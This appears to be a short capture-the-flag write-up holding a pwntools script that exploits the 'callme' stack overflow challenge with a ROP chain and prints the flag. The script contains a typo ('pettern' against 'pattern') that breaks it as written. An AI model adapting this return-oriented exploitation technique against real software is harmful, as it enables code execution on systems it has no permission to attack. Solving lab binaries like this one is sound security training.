

# callme

```python
io = start()

junk = cyclic(1024)
io.send(junk)
io.wait()

core = io.corefile
rsp = core.registers['rsp']

pettern = core.read(rsp, 4)
padding = cyclic_find(pattern)

elf = ELF(exe, checksec=False)
rop = ROP(elf)

rop.call(elf.symbols.plt.callme_one, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(elf.symbols.plt.callme_two, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(elf.symbols.plt.callme_three, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])

payload = flat({
	padding: rop.chain()
})

io = start()
io.sendlineafter(b'> ', payload)
io.recvlines(3)

flag = io.recv()
log.success(flag.decode())
```


